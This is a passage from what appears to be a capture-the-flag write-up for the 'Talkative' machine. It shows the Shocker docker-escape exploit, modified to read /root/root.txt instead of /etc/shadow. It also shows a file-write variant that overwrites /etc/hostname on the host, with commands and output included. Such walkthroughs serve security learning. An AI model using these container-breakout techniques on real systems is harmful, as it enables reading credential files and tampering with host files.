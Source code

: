 
#### Read root.txt

I’ll go back into the source, and on line 169, update the file it reads from
`/etc/shadow` to `/root/root.txt`:

    
    
            if (find_handle(fd1, "/root/root.txt", &root_h, &h) <= 0)
                    die("[-] Cannot find valid handle!");
    

On recompiling and re-uploading, it returns the flag:

    
    
    root@c150397ccd63:~# ./so                           
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]
    
    <enter>
    
    [*] Resolving 'root/root.txt'
    ...[snip]...
    [!] Win! /etc/shadow output follows:
    c8c243c5************************
    

### Shocker File Write

#### POC

There’s some ability to write files using Shocker, though I can’t fully
explain what’s required. HackTricks has a
[version](https://book.hacktricks.xyz/linux-hardening/privilege-
escalation/linux-capabilities#cap_dac_override) that will write files on the
host as well! It says that `cap_dac_override` is required for this to work,
but it clearly does work on Talkative and that capability isn’t present.

I’ll upload the compiled writing version and run it, giving two files:

    
    
    root@c150397ccd63:~# echo a  > a
    root@c150397ccd63:~# ./sw /etc/hostname a
    

I can verify that the `/etc/hostname` file on the host is overwritten from my
shell as saul:

    
    
    saul@talkative:/dev/shm$ cat /etc/hostname 
    a
    lkative
    

Only the first two bytes of the original file are overwritten, which is the
size of the file I used.

